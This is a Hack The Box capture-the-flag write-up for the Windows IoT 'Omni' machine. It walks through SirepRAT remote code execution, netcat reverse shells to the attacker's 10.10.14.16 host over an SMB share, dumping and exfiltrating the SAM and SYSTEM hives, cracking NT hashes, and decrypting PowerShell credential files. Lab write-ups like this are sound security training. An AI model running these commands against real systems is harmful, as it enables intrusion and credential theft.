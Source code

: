 ![](media/f0d212589fe77f32b1442e14a50be791.png)

Writeup of _OMNI_

Easy machine (hackthebox.com)

Sylvain (Javali) Júlio - 08/09/2021

# Enumeration

## Nmap

For enumeration, after verifying the connection, I always do a nmap scan like this:

![allPorts Scan](Assets/HTB-Windows-Easy-omni/Images/allPorts.png) ![nmap-A](Assets/HTB-Windows-Easy-omni/Images/nmap-A.png)

At this point, we know:

-   Port 135 Open: MSRPC is an interprocess communication (IPC) mechanism that allows client/server software communcation
-   Port 8080 open: Basic realm=Windows Device Portal - The Windows Device Portal (WDP) is a web server included with Windows devices that lets you configure and manage the settings for the device over a network or USB connection.  Access to port 8080 from the web browser is restricted by basic authentication

![Login 8080](Assets/HTB-Windows-Easy-omni/Images/login_8080.png)

After some researches, if we google for _"Windows Device Portal exploit github"_, we can find this tool:

> SirepRAT - RCE as SYSTEM on Windows IoT Core - GitHub (https://github.com/SafeBreach-Labs/SirepRAT)

![Windows IoT Core](Assets/HTB-Windows-Easy-omni/Images/win_IoT_Core.jpg)

# Exploitation

```bash
git clone https://github.com/SafeBreach-Labs/SirepRAT.git
cd SirepRAT

sudo python3 setup.py install

# The syntaxt is a bit hard... but the github page as a lot of examples...
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"
```

The command give us an output that looks good. But we can confirm if we have RCE with a better combo!

```bash
# Listening for pings
sudo tcpdump -i tun0 icmp

# Run RCE on the target machine to ping my kali machine
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c ping 10.10.14.16"
```

![RCE Ping](Assets/HTB-Windows-Easy-omni/Images/ping_RCE.png) ![RCE Ping - TCPDump listener](Assets/HTB-Windows-Easy-omni/Images/tcpdump_ping_RCE.png)

At this point, we know we have effectively RCE. So, the next step is to get a reverse shell

-   I tryied Certutil but don't work (don't existe)
-   I tryied with IEX but don't work too (don't exist')
-   I create a smbserver, wget a netcat (nc64.exe) on my kali
-   Prepare the listener to receive the reverse shell _(sudo rlwrap nc -lvnp 443)_

```bash
# SMB Server
sudo smbserver.py smbFolder $(pwd) -user javali -password javali -smb2support

# NC listener
sudo rlwrap nc -lvnp 443

# Get Reverse shell
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c net use \\10.10.14.16\smbFolder /u:javali javali'

python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c \\10.10.14.16\smbFolder\nc64.exe -e cmd 10.10.14.16 443'
```

We are in the target machine! 

![ipconfig](Assets/HTB-Windows-Easy-omni/Images/ipconfig.png)

# Privesc

## Enumeration of the System.

On all CTF, the objective is to get flag (close to always user.txt and root.txt)

If we have permitions, we can find this with a simple command:

```bash
cd C:\
dir /r /s user.txt  # user.txt : C:\Data\Users\app
dir /r /s root.txt  # root.txt : C:\Data\Users\administrator

icacls C:\Data\Users\app\user.txt  # NT AUTHORITY\SYSTEM:(I)(F)
								   # BUILTIN\Administrators:(I)(F)
                                   # OMNI\app:(I)(F)

icacls C:\Data\Users\administrator\root.txt  # NT AUTHORITY\SYSTEM:(I)(F)
                                             # BUILTIN\Administrators:(I)(F)
                                             # OMNI\Administrator:(I)(F)
```
 At this point, we suppose we have to migrate at the user app, or directly at administrator... We don't know what privilege we have, but we know with SAM and SYSTEM files, we can extract all NT hash from all LOCAL users of the target machine. We give a try...

 ```bash
reg save HKLM\SYSTEM SYSTEM.bak  # The operation completed successfully.
reg save HKLM\SAM SAM.bak        # The operation completed successfully.

# Download that files with smbserver
copy .\SAM.bak \\10.10.14.16\smbFolder\SAM.bak
copy .\SYSTEM.bak \\10.10.14.16\smbFolder\SYSTEM.bak

# On kali machine, extract data
secretsdump.py -sam SAM.bak -system SYSTEM.bak LOCAL
#>  Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
#>  
#>  [*] Target system bootKey: 0x4a96b0f404fd37b862c07c2aa37853a5
#>  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
#>  Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
#>  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
#>  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
#>  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
#>  sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
#>  DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
#>  app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::
#>  [*] Cleaning up...
 ```

Now, with all that hashes, we can try to crack them with john the ripper, and rockyou.txt

```bash
echo "Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::" > hashes

john --wordlist=/usr/share/wordlists/rockyou.txt --format=nt hashes
john --format=NT --show hashes  # app:mesh5143
```

I tryied to Invoke_Command with the credentials we get but dont worked... So i tried to login into the website at port 8080

![http logged](Assets/HTB-Windows-Easy-omni/Images/http_logged.png)

![RCE website](Assets/HTB-Windows-Easy-omni/Images/RCE_website.png)

We can execute commands directely with Windows Device Portal. But it's always better get a real reverse shell...
We can't do the same with smbserver, but we can transfere nc64.exe to the target. I always choose C:\Windows\System32\spool\drivers\color\ path because is nearly never blocked (applocker bypass)...

```bash
# On reverse shell with user omni
copy \\10.10.14.16\smbFolder\nc64.exe C:\Windows\System32\spool\drivers\color\nc64.exe

# On website with user app
C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443
```

## User "app"

In the home directory of "app", we can see the user.txt, but we can see another strange file: iot-admin.xml.
The file looks like this:

![ss-files](Assets/HTB-Windows-Easy-omni/Images/SS-file.png)

This file is a Powershell Credential. to extract the "Password" field, we can do that:

```bash
(Import-CliXml -Path iot-admin.xml).GetNetworkCredential().password
#> _1nt3rn37ofTh1nGz
# This maybe is the password of administrator.
# administrator:_1nt3rn37ofTh1nGz

# with the same process (because root.txt, user.txt and iot-admin.xml are all Powershell Credentials), we can extract the user.txt flag:
(Import-CliXml -Path user.txt).GetNetworkCredential().password
# 7cfd50f6bc34db3204.............. 
```

With new credential, we can login on website as user administrator

![web administrator logged](Assets/HTB-Windows-Easy-omni/Images/web-administrator.png)

Now we can get reverse shell with the same nc64.exe we download before

```bash
C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443
```

![administrator reverse shell](Assets/HTB-Windows-Easy-omni/Images/administrator-reverse-shell.png)

For the flag, we use the same tecnic to extract the password of the Powershell Credential:

```bash
type root.txt  # Props are the same 'UserName' and 'Password'
(Import-CliXml -Path root.txt).GetNetworkCredential().Password
#> 5dbdce5569e2c47.................

```
